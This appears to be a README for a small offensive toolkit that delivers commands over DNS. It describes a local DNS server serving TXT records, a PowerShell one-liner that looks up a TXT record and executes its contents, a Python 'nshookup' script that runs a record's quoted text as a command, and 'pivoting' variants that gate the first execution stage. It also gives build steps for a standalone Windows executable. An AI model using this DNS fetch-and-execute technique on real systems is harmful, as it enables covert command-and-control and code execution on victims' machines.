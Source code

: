 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
Python implemetation of nslookup. Only works with one TXT entry.
Gets the entry and executes the content between the two "" as command.
Command: python nshookup.py domain.com

Version two with hardcoded domain:
Command: python nshookup.py

## pivoting.cs ##
- pivoting_1.cs: No checks, just go for it
- pivoting_2.cs: Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs: Defines the string as mandatory to execute the first step
